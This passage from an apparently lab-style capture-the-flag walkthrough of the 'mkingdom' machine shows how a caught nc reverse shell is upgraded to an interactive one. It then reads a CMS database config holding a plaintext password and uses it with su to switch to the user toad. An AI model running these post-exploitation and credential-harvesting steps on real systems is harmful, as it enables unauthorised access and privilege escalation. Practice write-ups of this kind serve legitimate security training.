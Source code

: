 * We can get a more stable shell with python (pty module).

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@mkingdom:/$ export TERM=xterm
export TERM=xterm
www-data@mkingdom:/$ ^Z  # Ctrl + Z --> background the process
zsh: suspended  nc -lnvp 9999
                                                                                                       
 stty raw -echo; fg # foregroung the process
[1]  + continued  nc -lnvp 9999

www-data@mkingdom:/$ 
```

## Privesc to toad

**Looking for webb app's config files i found the password for `toad`.**

```bash
www-data@mkingdom:/var/www/html/app/castle/application/config$ ls
app.php  database.php  doctrine  generated_overrides
www-data@mkingdom:/var/www/html/app/castle/application/config$ cat database.php
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => 'toadisthebest',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
];
www-data@mkingdom:/var/www/html/app/castle/application/config$ su toad
Password: 
toad@mkingdom:/var/www/html/app/castle/application/config$ cd
toad@mkingdom:~$ ls 
Desktop    Downloads  Pictures  smb.txt    Videos
Documents  Music      Public    Templates
toad@mkingdom:~$ 
```
## Privesc to mario

After trying some scripts like [LinPeas.sh](https://github.com/peass-ng/PEASS-ng/releases/tag/20240609-52b58bf5) i couldn't find a way to esculate my privilages to root.
